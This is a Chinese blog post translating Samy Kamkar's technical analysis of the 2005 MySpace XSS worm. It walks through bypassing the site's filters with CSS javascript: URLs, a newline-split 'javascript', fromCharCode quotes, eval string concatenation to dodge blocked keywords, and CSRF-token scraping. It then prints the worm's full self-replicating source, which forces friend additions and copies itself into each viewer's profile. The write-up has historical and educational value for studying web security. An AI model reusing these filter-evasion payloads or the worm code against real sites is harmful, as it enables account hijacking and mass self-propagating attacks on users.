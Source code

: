 ﻿---
layout: post
title: "[译]MySpace蠕虫技术分析"
category: front-end
excerpt: '在2005年，Samy kamkar在为Myspace社交网站新注册的账户交不到好友而感到苦恼不已。他起初的想法是让自己账户...'
---

[>>更好的阅读体验](https://www.zybuluo.com/lxjwlt/note/212822)

> 在2005年，Samy kamkar在为Myspace社交网站新注册的账户交不到好友而感到苦恼不已。他起初的想法是让自己账户页面更炫，这样能吸引更多女生来关注他。在对Myspace.com页面的摸索过程中，他发现页面中能够嵌入javascript代码，于是他的想法从“让账户页面更炫”，变成了，每个浏览他账户页面的用户都会把他加为好友，而每个加他好友的用户的账户页面都嵌入同样的代码，朋友的朋友也会加他为好友...在不到一天的时间里，Samy的蠕虫感染100万名用户，这是Web安全史上第一重量级的XSS蠕虫。下面是Samy公布的该蠕虫的技术分析，文中有介绍到蠕虫代码是如何绕开Myspace.com的敏感词过滤的，还有他对其中技术难点的思考过程。这篇文章让我惊艳，其中技术难点的攻破非常有启发意义，所以粗略的译了译，希望和大家分享。

Myspace蠕虫也叫做“Samy蠕虫”或“JS.Spacehero蠕虫”。

[点击这里，查看MySpace蠕虫实现、发表以及紧接着“狂欢“的整个过程](http://samy.pl/popular)

在最下面附上MySapce蠕虫的全部源代码。

请注意，这代码以及分析是在MySpace网站解决了该蠕虫之后才公布的。

这些技术公布出来的时候，它们已经无法在MySpace上发挥作用了，所以现在这些技术都失效了。否则，这恐怕已经一团糟了。

好，让我们来更深入的探讨一下，这些问题的产生，它的背景，以及在通常情况下，它是如何生效的。

1）Myspace网站过滤了许多标签。事实上，他们貌似只保留了`<a>`标签、`<img>`标签和`<div>`标签...可能还有其他的（`<embed>`标签，也许吧）。他们禁止了`<script>`标签、`<body>`标签、onClick标签属性、on前缀的所有标签属性、包含javascript代码的href属性，等等...然而，一些浏览器（IE，某些版本的Safari，等等）允许CSS标签中带有javascript代码。例如：

```html
<div style="background:url('javascript:alert(1)')">
```

2) 因为我们已经使用了单引号和双引号，所以在该`<div>`标签里不能再使用引号了。这让JS代码编写起来非常的困难。为了解决这个问题，我们使用一个表达式来存储JS代码，然后通过name查询来执行它：

```html
<div id="mycode" expr="alert('hah!')" style="background:url('javascript:eval(document.all.mycode.expr)')">
```

3) 非常好！现在我们可以在javascript代码中使用单引号了。然而，Myspace网站过滤了“javascript”等敏感词。为了绕开这个限制，我们了解到，一些浏览器会将“java\nscript”解析为“javascript”（即java<换行>script）：

```html
<div id="mycode" expr="alert('hah!')" style="background:url('java 
script:eval(document.all.mycode.expr)')">
```

4) OK，即使我们让单引号生效了，但有时候我们也需要双引号。我们可以对双引号进行转义，比如：“foo\"bar”。但Myspace网站猜到我会这么做...他们过滤了所有转义过的引号，无论是单引号还是双引号。但是，我们在javascript中可以将数值转换成ASCII码来生成引号：

```html
<div id="mycode" expr="alert('double quote: ' + String.fromCharCode(34))" style="background:url('java 
script:eval(document.all.mycode.expr)')">
```

5) 为了把代码提交到用户的账户页面中，我们需要得到页面的源码。啊哈，我们可以使用document.body.innerHTML来得到该页面的源码，账户页面会保留浏览过（哪怕一次）该页面的用户的ID。Myspace网站又再一次猜到我的想法，它过滤了所有的“innerHTML”。为了绕开这限制，我们使用eval()来调用两个字符串，将它们拼接到一起，组合成“innerHTML”：

```html
alert(eval('document.body.inne' + 'rHTML'));
```

6) 是时候访问其他页面了。我们可能会想到用iframe标签，但很多时候（即便是隐藏的时候），iframe都不是那么有效，而且用户也会很明显的觉察到“某些事情”正在发生。所以，我们使用AJAX（XML-HTTP）来构造GET和POST请求。然而，Myspace网站过滤了一个XML-HTTP请求必要的关键字：“onreadystatechange”。再次，我们使用eval来绕开它。选用XML-http的另一原因在于，Myspace网站上执行操作的必要cookie可以很轻松地发送给后台：

```html
eval('xmlhttp.onread' + 'ystatechange = callback');
```

7) 是时候给用户的账户页面发送GET情况了，这样我们可以获取到他们当前的关注列表。我们并不是要删除任何关注的好友，我们只是想把我们自己添加到他们关注列表中。如果我们GET请求获取到了他们的账户页面，我们可以抓取到他们的英雄并保存起来，方便后面使用。之前讲过了，这对于XML-HTTP来说是很容易办到的，但是我们必须获取到浏览该页面的用户的ID。就像我们上面说道，我们可以通过获取页面源码来实现这一点。然而，现在我们需要在这个页面上对一个特殊的单词进行搜索。于是乎我们开始了搜索，如果这么做了，搜索总会找到我们自己写的代码，因为我们代码里就包含了我们要查找的那个单词...我们告诉电脑“如果这个页面包含了‘foo’单词，那么执行以下操作”，这判断语句会永远返回true，因为它总会在执行搜索的代码里找到这个单词。我们通过eval()和字符串结合的方式来避开这个问题：

```javascript
var index = html.indexOf('frien' + 'dID');
```

8) 目前为止，我们获取到了关注列表。接下来，通过构造一个XML-http的POST请求发送到添加朋友页面，把我加为好友。噢，别这样，这竟然不起作用！为什么行不通？我们在profile.myspace.com上，然而添加朋友的POST请求只能在www.myspace.com上请求。没什么大不了的，但是XML-HTTP不予许跨域发送GET/POST请求。为了避开这一限制，我们要跳转到www.myspace.com的同个url上。在www.myspace.com上你依旧能够访问到账户页面，所以将页面重新加载到我们可以进行POST操作的域名上：

```javascript
if (location.hostname == 'profile.myspace.com') 
    document.location = 'http://www.myspace.com' + location.pathname + location.search;
```

9) 我们终于可以进行POST请求了！然而，当我们发送POST请求，它却不会成功添加朋友。为什么会这样？Myspace网站给需要进行POST操作的页面生成了一个随机的哈希值（例如，“你确定要添加这位用户为好友么”页面）。如果POST请求中没有附带这个哈希值，该请求便不会生效。为了解决这个问题，我们假装是一个浏览器，在添加好友之前，用GET方式获取到对应页面，解析其源码获取到这段哈希值，然后构造POST请求的时候附上这段哈希值。

10) 当POST请求完成后，我们还要在关注列表上添加一名关注并附上蠕虫代码。代码和新增关注放在同个地方，这样我们只需要发送一个POST请求就可以了。为了获得新的哈希值，我们需要GET请求到该页面，但在此之前，我们必须重新生成POST发送的蠕虫代码。最简单的方式就是抓取我们所在账户页面中的源码，把蠕虫代码解析出来，然后POST发送出去。这能够做到，但现在所有代码都乱码了！啊，我们需要对代码进行URL编码或转义，这样POST请求才可以正确的发送这段代码。奇怪，还是不行。显然，javascript的URL编码和转义函数并不能把所有必要的东西都进行转义，所以我们需要手动来执行一些替换，让关键的数据能够成功转义。我们加上了一小段文字“但最重要的是，samy是我的偶像”。紧随其后，我们加入所有的蠕虫代码。现在，我们有了一个可”自复制“的代码了，如果你愿意，你可以将它称之为蠕虫。

11) 还有一些限制，比如标签属性赋值的最大长度，这会造成其他的问题，而且要求压缩代码，不可以有空格，模糊的变量命名，可复用的函数，等等...

还有少部分需要解决的技术难点。无论怎么说，这都不是一个一帆风顺的过程，而且这也不是想要造成任何伤害或想要激怒任何人。这只是兴趣使然。这过程让人觉得很有趣很好玩！

最后附上源码：

```html
<div id=mycode style="BACKGROUND: url('java 
script:eval(document.all.mycode.expr)')" expr="var B=String.fromCharCode(34);var A=String.fromCharCode(39);function g(){var C;try{var D=document.body.createTextRange();C=D.htmlText}catch(e){}if(C){return C}else{return eval('document.body.inne'+'rHTML')}}function getData(AU){M=getFromURL(AU,'friendID');L=getFromURL(AU,'Mytoken')}function getQueryParams(){var E=document.location.search;var F=E.substring(1,E.length).split('&');var AS=new Array();for(var O=0;O<F.length;O++){var I=F[O].split('=');AS[I[0]]=I[1]}return AS}var J;var AS=getQueryParams();var L=AS['Mytoken'];var M=AS['friendID'];if(location.hostname=='profile.myspace.com'){document.location='http://www.myspace.com'+location.pathname+location.search}else{if(!M){getData(g())}main()}function getClientFID(){return findIn(g(),'up_launchIC( '+A,A)}function nothing(){}function paramsToString(AV){var N=new String();var O=0;for(var P in AV){if(O>0){N+='&'}var Q=escape(AV[P]);while(Q.indexOf('+')!=-1){Q=Q.replace('+','%2B')}while(Q.indexOf('&')!=-1){Q=Q.replace('&','%26')}N+=P+'='+Q;O++}return N}function httpSend(BH,BI,BJ,BK){if(!J){return false}eval('J.onr'+'eadystatechange=BI');J.open(BJ,BH,true);if(BJ=='POST'){J.setRequestHeader('Content-Type','application/x-www-form-urlencoded');J.setRequestHeader('Content-Length',BK.length)}J.send(BK);return true}function findIn(BF,BB,BC){var R=BF.indexOf(BB)+BB.length;var S=BF.substring(R,R+1024);return S.substring(0,S.indexOf(BC))}function getHiddenParameter(BF,BG){return findIn(BF,'name='+B+BG+B+' value='+B,B)}function getFromURL(BF,BG){var T;if(BG=='Mytoken'){T=B}else{T='&'}var U=BG+'=';var V=BF.indexOf(U)+U.length;var W=BF.substring(V,V+1024);var X=W.indexOf(T);var Y=W.substring(0,X);return Y}function getXMLObj(){var Z=false;if(window.XMLHttpRequest){try{Z=new XMLHttpRequest()}catch(e){Z=false}}else if(window.ActiveXObject){try{Z=new ActiveXObject('Msxml2.XMLHTTP')}catch(e){try{Z=new ActiveXObject('Microsoft.XMLHTTP')}catch(e){Z=false}}}return Z}var AA=g();var AB=AA.indexOf('m'+'ycode');var AC=AA.substring(AB,AB+4096);var AD=AC.indexOf('D'+'IV');var AE=AC.substring(0,AD);var AF;if(AE){AE=AE.replace('jav'+'a',A+'jav'+'a');AE=AE.replace('exp'+'r)','exp'+'r)'+A);AF=' but most of all, samy is my hero. <d'+'iv id='+AE+'D'+'IV>'}var AG;function getHome(){if(J.readyState!=4){return}var AU=J.responseText;AG=findIn(AU,'P'+'rofileHeroes','</td>');AG=AG.substring(61,AG.length);if(AG.indexOf('samy')==-1){if(AF){AG+=AF;var AR=getFromURL(AU,'Mytoken');var AS=new Array();AS['interestLabel']='heroes';AS['submit']='Preview';AS['interest']=AG;J=getXMLObj();httpSend('/index.cfm?fuseaction=profile.previewInterests&Mytoken='+AR,postHero,'POST',paramsToString(AS))}}}function postHero(){if(J.readyState!=4){return}var AU=J.responseText;var AR=getFromURL(AU,'Mytoken');var AS=new Array();AS['interestLabel']='heroes';AS['submit']='Submit';AS['interest']=AG;AS['hash']=getHiddenParameter(AU,'hash');httpSend('/index.cfm?fuseaction=profile.processInterests&Mytoken='+AR,nothing,'POST',paramsToString(AS))}function main(){var AN=getClientFID();var BH='/index.cfm?fuseaction=user.viewProfile&friendID='+AN+'&Mytoken='+L;J=getXMLObj();httpSend(BH,getHome,'GET');xmlhttp2=getXMLObj();httpSend2('/index.cfm?fuseaction=invite.addfriend_verify&friendID=11851658&Mytoken='+L,processxForm,'GET')}function processxForm(){if(xmlhttp2.readyState!=4){return}var AU=xmlhttp2.responseText;var AQ=getHiddenParameter(AU,'hashcode');var AR=getFromURL(AU,'Mytoken');var AS=new Array();AS['hashcode']=AQ;AS['friendID']='11851658';AS['submit']='Add to Friends';httpSend2('/index.cfm?fuseaction=invite.addFriendsProcess&Mytoken='+AR,nothing,'POST',paramsToString(AS))}function httpSend2(BH,BI,BJ,BK){if(!xmlhttp2){return false}eval('xmlhttp2.onr'+'eadystatechange=BI');xmlhttp2.open(BJ,BH,true);if(BJ=='POST'){xmlhttp2.setRequestHeader('Content-Type','application/x-www-form-urlencoded');xmlhttp2.setRequestHeader('Content-Length',BK.length)}xmlhttp2.send(BK);return true}"></DIV>
```

\- samy




